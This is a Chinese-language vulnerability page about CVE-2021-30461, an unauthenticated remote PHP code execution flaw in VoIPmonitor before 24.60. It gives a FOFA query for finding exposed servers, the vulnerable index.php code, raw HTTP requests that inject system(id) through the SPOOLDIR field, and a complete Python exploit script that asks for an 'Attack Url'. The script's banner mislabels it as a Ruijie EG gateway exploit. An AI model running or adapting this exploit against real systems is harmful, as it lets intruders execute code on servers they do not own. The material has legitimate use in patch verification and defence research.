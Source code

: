 # VoIPmonitor 远程命令执行漏洞 CVE-2021-30461

## 漏洞描述

VoIPmonitor是“具有在Linux上运行的SIP RTP和RTCP VoIP协议的具有商业前端的开源网络数据包嗅探器”。

使用通过Web界面到达的用户提供的数据，允许未经身份验证的远程用户触发VoIPmonitor中的远程PHP代码执行漏洞。

## 漏洞影响

> [!NOTE]
>
> VoIPmonitor < 24.60

## FOFA

> [!NOTE]
>
> "VoIPmonitor"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/vo-1.png)

index.php文件中的关键代码

```php
$setConfigurationTypeValue_rslt = array();
if(file_exists('config/configuration.php')) {
	$existsConfiguration = true;
	if(isset($_POST['recheck'])) {
		if(!empty($_POST['SPOOLDIR'])) {
			setConfigurationTypeValue__index('SPOOLDIR', $_POST['SPOOLDIR']);
		}
	}
```

传入参数 recheck 和 SPOOLDIR， 并将**SPOOLDIR** 写入 **config/configuration.php** 中

![](http://wikioss.peiqi.tech/vuln/vo-3.png)

发送如下请求包

```
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 29

SPOOLDIR=%2Ftmp&recheck=annen
```

```
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=test%22.system%28id%29.%22&recheck=annen
```

![](http://wikioss.peiqi.tech/vuln/vo-2.png)

成功执行命令

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 cli.php RCE                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/index.php"
    data = {"SPOOLDIR": "/tmp", "recheck": "annen"}
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

    POC_2(target_url)

def POC_2(target_url):
    vuln_url = target_url + "/index.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = {"SPOOLDIR": "test\".system(id).\"", "recheck": "annen"}
    print("\033[36m[o] 正在执行命令 id .....\033[0m")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
        if "uid=" in response.text:
            print("\033[36m[o] 成功执行 id, 目标存在漏洞.....\033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            exit()
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/vo-4.png 	)